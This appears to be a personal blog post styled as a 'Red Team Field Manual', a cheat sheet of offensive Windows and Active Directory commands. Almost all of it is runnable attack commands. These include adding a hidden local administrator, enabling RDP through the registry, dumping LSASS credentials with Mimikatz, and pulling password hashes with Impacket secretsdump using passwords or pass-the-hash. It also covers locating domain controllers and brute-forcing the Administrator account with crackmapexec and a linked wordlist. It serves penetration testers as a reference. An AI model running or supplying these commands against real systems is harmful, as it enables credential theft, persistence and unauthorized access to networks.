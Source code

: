 ```yaml
---
layout: blog
title: Red Team Field Manual
tags: RedTeam, ActiveDirectory
comments: true
date: 2022-12-10
---
```


# Red Team Field Manual
<br />
### Create Local User And Add To Administrators Group
    net user <Username> <Password> /add>
    
    net localgroup Administrators <Username> /add   
  
### List Users In Active Directory

    net users /domain

### Enable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Disable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
    
### Lsass Dump via Mimikatz

    privilege::debug
    sekurlsa::minidump file.DMP (If there is a DMP file)
    sekurlsa::logonpasswords full
    
### Impacket secretsdump - DUMP Local User Hashes via Domain Creds
 
    python3 secretsdump.py <Domain>/<Domain Username>:<Password>@<IP> #Enter with Domain Creds
    
### Impacket secretsdump - DUMP Local User Hashes via Domain NTLM Hash

    python3 secretsdump.py <Domain>/<Domain Username>@<IP> -hashes <NTLM Hash> #Enter with NTLM Hash
    
### Impacket secretsdump - DUMP Local User Hashes via Local User Creds
    
    python3 secretsdump.py <Computer_Hostname>/<Local Username>:<Password>@<IP> #Enter with Local Creds
    
### Impacket secretsdump - DUMP Local User Hashes via Local User Hash

    python3 secretsdump.py <Computer_Hostname>/<Local Username>@<IP> -hashes <NTLM Hash> #Enter with NTLM Hash

### Find Domain Controller In BlackBox Testing

    nmap -p389,636 --open -iL <IP_List_File>  #389(LDAP) / 636(LDAP-SSL)
    
    -> If you have a domain joined Windows Machine
    nslookup -querytype=SRV _LDAP._TCP.DC._MSDCS.<domain_name>
    
    (From PS) [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers
    
### Crackmapexec Local Administrator Brute Force Attack

    crackmapexec smb <IP List File> -u Administrator -p <Password List File> -d .

[My Own Password Brute Force List](https://github.com/br33z3/br33z3.github.io/blob/main/assets/static/pass.txt)
    
    
    
